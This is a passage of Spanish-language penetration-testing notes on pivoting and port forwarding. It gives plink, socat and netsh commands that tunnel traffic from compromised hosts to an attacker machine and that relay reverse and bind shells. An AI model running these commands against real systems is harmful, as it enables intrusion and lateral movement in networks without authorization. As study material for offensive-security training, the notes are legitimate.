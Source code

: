 	```bash
	socks5 127.0.0.1 9998
	```
- Y tenemos un túnel socks creado con el que podemos utilizar proxychains con normalidad
#### `plink`
Algunas versiones de Windows **no tienen cliente SSH instalado de forma nativa**, por lo que es necesario utilizar una herramienta alternativa como **`plink`** (de **PuTTY**). Solo permite remote port forwarding
- Ubicación en pwnbox
	```bash
	/usr/share/windows-resources/binaries/plink.exe
	```
- Funcionamiento general
```powershell
cmd.exe /c echo y | plink.exe -ssh -l [attacker_username] -pw [attacker_ssh_password] -R [attacker_ip]:[attacker_port]:[victim_ip]:[victim_port] [attacker_ip]
```
- Pone nuestra `$pwnbox` en escucha en el puerto `9833` y redirige todo el tráfico a localhost de `$target` (que está `$pwned`)
	```powershell
	C:\Windows\Temp\plink.exe -ssh -l an0nio -pw 1234 -R 127.0.0.1:9833:127.0.0.1:3389 $target
	```

### Socat - Linux - static port forwarding
#### Funcionamiento general
Aunque puede desempeñar otras funciones otras funciones, nos centraremos en su uso para redirigir el tráfico entre host o redes. Es útil para máquinas intermedias de pivote
```bash
socat [OPCIÓN1] [OPCIÓN2]
```
- **OPCIÓN1**: Punto de origen (como un socket, archivo, puerto).
- **OPCIÓN2**: Punto de destino.
#### Ejemplo revshell
Se redirige el tráfico del puerto `8080` de la máquina pivote al `80` de nuestra máquina atacante 
```bash
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
`fork` en este caso permite atender múltiples clientes de manera simultánea
#### Ejemplo bindshell
En el ejemplo de una bindshell, la máquina víctima está escuchando (puerto `8443` en este ejemplo), por lo que tenemos que hacer llegar la conexión desde nuestra máquina atacante
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
### `netsh` - Windows - Static port forwarding
Nos sirve para pivotar si tenemos acceso a al máquina, aunque es menos potente y flexible que `socat` (no hay cifrado, solo redirige solo tráfico tcp, ...). Podemos hacer redirección del tráfico utilizando el módulo `portproxy`
#### Funcionamiento general
```powershell
netsh interface portproxy add v4tov4 listenport=<puerto_local> listenaddress=<IP_local> connectport=<puerto_destino> connectaddress=<IP_destino>
```
##### Ejemplo ssh
Tráfico del puerto `2222` de la máquina `$pwned` se redirige a el `22` de  `$target`
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=0.0.0.0 connectport=22 connectaddress=$target
```
La máquina quedaría en escucha, pero no funcionaría si hay reglas de firewall que se aplican
#### Crear reglas de firewall firewall